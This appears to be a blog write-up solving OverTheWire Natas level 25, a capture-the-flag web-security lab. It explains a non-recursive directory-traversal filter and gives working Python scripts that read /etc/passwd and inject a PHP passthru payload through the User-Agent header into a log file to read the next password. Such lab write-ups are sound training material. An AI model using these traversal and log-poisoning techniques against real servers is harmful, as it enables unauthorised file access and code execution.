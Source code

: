 ```yaml
---
layout: post
title:  "Natas Level 24 → Level 25"
date:   2021-05-30 17:12:11
categories: ctf wargames web-security
tags: wargames ctf overthewire web-security
series: "OverTheWire: Natas"
excerpt: OMG
mathjax: false
---
```


## Level Goal
Excluding the URL and username, the Level Goal section is blank for the Natas ctf.


## Solution
This level starts with some static text and a dropdown to change the language of the text. As usual, there's also a link to the source code.

Below we see an attempt at sanitization.
```php
function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
```

While this works at first glance there is a problem. While something such as **../../../../../../etc/passwd** would be caught and rewritten as **etc/passwd** which even if it exists, what would be the result of something like **..././..././..././..././..././..././etc/passwd**? Let's create a Python script and see what happens.

```python
#!/usr/bin/env python
import requests
from requests.auth import HTTPBasicAuth

password = 'G------------------------------c'
session = requests.Session()

auth = HTTPBasicAuth('natas25', password)
url = 'http://natas25.natas.labs.overthewire.org/index.php'
session.post(url=url, auth=auth)  # create session id

passwd = '..././..././..././..././..././etc/passwd'
resp = session.post(url=url, data={"lang": passwd}, auth=auth)

print(resp.text)
```

In the output, we see the contents of /etc/passwd. The reason this worked is that the sanitization attempt is not recursive. Let's look at the following portion of the directory traversal string and see what's going on.
```
..././
↑↑↑↑↑↑
123456
```

The function looks for **../** and removes any occurrences found.  In the above example numbers 2, 3, and 4 meet these criteria and are deleted. Starting again at 5 a dot is encountered, but 6 is a slash. The sanitization has been completed. The sanitized string now consists of 1, 5, and 6. This string is now considered safe by the rest of the program.

Now let's look at the logging function:
```php
function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
```

Notice that the log contains our User-Agent. This is set in the headers and is something we can control. We should be able to inline a simple php script that writes the natas25 password to the log. Since we have the path and name of the log file, we can use the weakness in the directory traversal filter and avoid the natas_webpass filter altogether.

Let's update the Python script:
```python
#!/usr/bin/env python
import requests
from requests.auth import HTTPBasicAuth

password = 'G------------------------------c'
session = requests.Session()

auth = HTTPBasicAuth('natas25', password)
url = 'http://natas25.natas.labs.overthewire.org/index.php'
session.post(url=url, auth=auth)  # create session id

headers = {"User-Agent": "<? passthru('cat /etc/natas_webpass/natas26'); ?>"}
id = session.cookies["PHPSESSID"]  # read session id

log = "..././..././..././..././..././var/www/natas/natas25/logs/natas25_" + id + ".log"
resp = session.post(url=url, headers=headers, data={"lang": log}, auth=auth)

print(resp.text)
```